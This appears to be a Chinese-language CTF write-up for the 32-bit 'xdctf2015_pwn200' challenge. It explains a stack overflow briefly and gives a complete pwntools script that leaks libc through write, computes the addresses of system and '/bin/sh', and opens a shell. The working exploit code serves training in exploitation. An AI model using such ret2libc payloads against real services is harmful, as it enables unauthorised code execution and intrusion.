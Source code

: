 ```yaml
---
title: 'xdctf2015_pwn200'
date: 2024-01-16 13:00:00 +0800
categories: [ctf,pwn]
tags: [32bit,leak_libc]
---
```

- `32`位泄露`了ibc`

 ![image-20240116183210088](../assets/img/old_imgs/image-20240116183210088.png)

![image-20240116183224238](../assets/img/old_imgs/image-20240116183224238.png)

1. `main`函数中输入
2. `vuln`函数中存在溢出漏洞

非常常规的泄露`libc`,直接上代码

```python
from pwn import *
elf = ELF('./bof')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
io = process('./bof')
padding = b'A'*112
payload1 = padding+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(0x1)+p32(elf.got['write'])+p32(0x4)
io.sendlineafter(b'Welcome to XDCTF2015~!\n',payload1)

write_addr = u32(io.recv(4))
print('puts_addr->',hex(write_addr))

Liboffset = write_addr - Lib.sym['write']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))

payload2 = padding + p32(sys_addr)+p32(0x0)+p32(bin_sh_addr)
io.sendlineafter(b'Welcome to XDCTF2015~!\n',payload2)
io.interactive()
```

